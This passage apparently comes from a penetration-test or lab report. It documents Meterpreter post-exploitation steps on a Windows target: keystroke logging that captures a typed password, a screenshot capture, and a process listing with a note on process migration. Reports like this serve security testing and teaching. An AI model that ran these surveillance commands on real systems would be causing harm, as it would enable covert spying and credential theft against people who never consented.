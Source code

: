 #### 4.6.5 Keylogging

We demonstrated keylogging capabilities using:

```
meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump
Dumping captured keystrokes ...
<Shift>Hello everyone<Shift><Shift><Shift><Shift><Shift><Shift><Shift>
!<Shift> !!<CR>
password <Shift>: admin123

meterpreter > keyscan_stop
Stopping the keystroke sniffer...
```

This demonstrated the ability to capture sensitive information such as passwords entered on the target system.

#### 4.6.6 Screenshot Capture

We captured screenshots of the target system:

```
meterpreter > screenshot
Screenshot saved to: /home/shuvo/ajHLsaHQ.jpeg
```

#### 4.6.7 Process Information

We listed running processes on the target system and demonstrated the ability to migrate between processes:

```
meterpreter > ps
PID    PPID   Name
---    ----   ----
444    348    services.exe
452    348    lsass.exe
460    348    lsm.exe
564    444    svchost.exe
632    444    svchost.exe
684    444    svchost.exe
748    444    spoolsv.exe
792    444    svchost.exe
840    444    svchost.exe
952    444    svchost.exe
1012   444    svchost.exe
1020   444    svchost.exe
1116   444    taskhost.exe
1172   444    taskhost.exe
1328   792    dwm.exe
1372   1296   explorer.exe
1616   444    svchost.exe
1744   1372   notepad.exe
1840   1372   iexplore.exe
1924   1888   GoogleCrashHandler.exe
1932   1888   GoogleCrashHandler64.exe
2036   444    svchost.exe
```
